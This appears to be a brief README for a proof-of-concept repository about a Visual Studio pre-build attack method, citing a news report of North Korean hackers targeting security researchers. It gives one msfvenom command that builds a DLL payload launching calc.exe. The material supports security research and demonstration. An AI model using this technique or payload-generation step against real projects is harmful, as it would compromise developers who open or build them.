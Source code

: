 # VisualStudioPreBuildPwn-POC
Recent APT exploitation method POC 


https://www.bleepingcomputer.com/news/security/north-korean-hackers-are-targeting-security-researchers-with-malware-0-days/


msfvenom -p windows/exec CMD='calc.exe' -f dll > calc.dll
